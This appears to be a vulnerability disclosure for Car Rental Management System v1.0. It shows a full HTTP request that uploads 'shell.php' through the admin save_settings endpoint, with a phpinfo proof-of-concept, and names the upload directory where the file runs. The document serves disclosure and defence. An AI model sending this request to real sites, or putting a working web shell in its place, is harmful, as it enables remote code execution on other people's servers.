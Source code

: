 # Car Rental Management System v1.0 has arbitrary code execution (RCE)

vendor: https://www.campcodes.com/projects/php/car-rental-management-system/

Vulnerability url: ip/car-rental-management-system/admin/ajax.php?action=save_settings

Request package for file upload：

```sql
POST /car-rental-management-system/admin/ajax.php?action=save_settings HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/car-rental-management-system/admin/index.php?page=site_settings
Content-Length: 1636
Content-Type: multipart/form-data; boundary=---------------------------218441699924310
Cookie: PHPSESSID=q0aiu0hqk51vrl4kivubc7u18k
Connection: close

-----------------------------218441699924310
Content-Disposition: form-data; name="name"

Car Rental Management System
-----------------------------218441699924310
Content-Disposition: form-data; name="email"

info@sample.comm
-----------------------------218441699924310
Content-Disposition: form-data; name="contact"

+6948 8542 623
-----------------------------218441699924310
Content-Disposition: form-data; name="about"

<p style="text-align: center; background: transparent; position: relative;"><span style="color: rgb(0, 0, 0); font-family: &quot;Open Sans&quot;, Arial, sans-serif; font-weight: 400; text-align: justify;">&nbsp;is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industryâs standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum.</span><br></p><p style="text-align: center; background: transparent; position: relative;"><br></p><p style="text-align: center; background: transparent; position: relative;"><br></p><p></p>
-----------------------------218441699924310
Content-Disposition: form-data; name="img"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------218441699924310--
```

The files will be uploaded to this directory \admin\assets\uploads\
![image](https://user-images.githubusercontent.com/54017627/170957730-b19378a7-0303-4b1b-8833-12b3b24f9e83.png)

We visited the directory of the file in the browser and found that the code had been executed
![image](https://user-images.githubusercontent.com/54017627/170957793-9955af79-2fd7-4c29-92d4-f44346b24aea.png)
